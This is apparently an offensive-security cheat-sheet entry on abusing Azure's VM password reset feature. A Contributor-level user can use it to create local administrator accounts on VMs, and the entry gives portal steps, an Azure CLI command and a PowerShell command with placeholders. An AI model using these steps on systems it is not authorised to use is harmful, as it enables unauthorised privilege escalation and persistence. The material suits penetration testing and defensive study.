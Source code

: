 # Exploiting Password Reset Feature

## Requirements: Contributor account/role access

## Tools: Lava, Azure Portal , Azure command line

### The password reset feature for Azure VMs was intended to simplify the process of resetting the password of a local Azure VM user, using the VM agent that is installed on every Azure VM. However, this feature could be abused to create new local users with administrative privileges on both Windows and Linux VMs in Azure!

## VM Enumeration command

 - GetAzVM

# 1) Azure Portal

 - On the target VM, go to "reset password" then choose our newly created user and set his new password.

# 2) Azure CLI

 - az vm user update -u USERNAME -p PASSWORD -n VM_NAME -g RESOURCE_GROUP (Create a local user for a VM.)

# 3) Azure Powershell

 - Set-AzVMAccessExtension -ResourceGroupName "RESOURCE_GROUP" -Location "LOCATION" -VMName "VM_NAME" -Name "EXTENSION_NAME" -TypeHandlerVersion "2.4" -UserName "USERNAME" -Password "PASSWORD"
